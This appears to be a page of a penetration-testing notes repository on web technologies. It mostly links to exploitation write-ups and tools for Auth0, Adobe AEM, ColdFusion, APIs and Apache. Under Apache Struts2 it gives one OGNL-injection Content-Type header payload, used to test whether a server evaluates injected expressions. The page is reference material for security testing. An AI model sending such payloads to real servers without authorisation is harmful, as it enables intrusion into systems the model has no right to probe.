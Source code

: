 +++
title = 'Web Technologies'
+++

## Auth0

- https://amjadali110.medium.com/how-i-exploited-an-auth0-misconfiguration-to-bypass-login-restrictions-c5d8c20d5505

## Adobe AEM

- [aem-hacker](https://github.com/0ang3el/aem-hacker)
- [aemscan](https://github.com/Raz0r/aemscan)
- [aem-paths.txt](https://github.com/emadshanab/Adobe-Experience-Manager/blob/main/aem-paths.txt)
- [writeup about aem exploitation](https://medium.com/@SecTech/adobe-experience-manager-exploitation-24bd9eb75ed9)

# Adobe Coldfusion

- https://www.jomar.fr/posts/2021/basic_recon_to_rce/

## API

- [API-Security-Checklist](https://github.com/shieldfy/API-Security-Checklist)
- [api-testing-checklist](https://hackanythingfor.blogspot.com/2020/07/api-testing-checklist.html)
- [API Security](https://github.com/0xCGonzalo/Golden-Guide-for-Pentesting/tree/master/API%20Security)
- [31-days-of-API-Security-Tips](https://github.com/inonshk/31-days-of-API-Security-Tips)
- [awesome-api-security](https://github.com/arainho/awesome-api-security)
- [web-api-pentesting](https://book.hacktricks.xyz/pentesting/pentesting-web/web-api-pentesting)
- [OpenAPI Scanner](https://github.com/ngalongc/openapi_security_scanner)
- [General tips](https://pentestbook.six2dez.com/enumeration/webservices/apis)
- [Mindmap](https://dsopas.github.io/MindAPI/play/)

## Apache

- [Exploit default apache](https://infosecwriteups.com/apache-example-servlet-leads-to-61a2720cac20)

## Apache Struts2

- Endpoints with .action, .do, .go are all using struts2

``` 
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('Added Header',4*4)}.multipart/form-data
```

## Artifactory Hacking
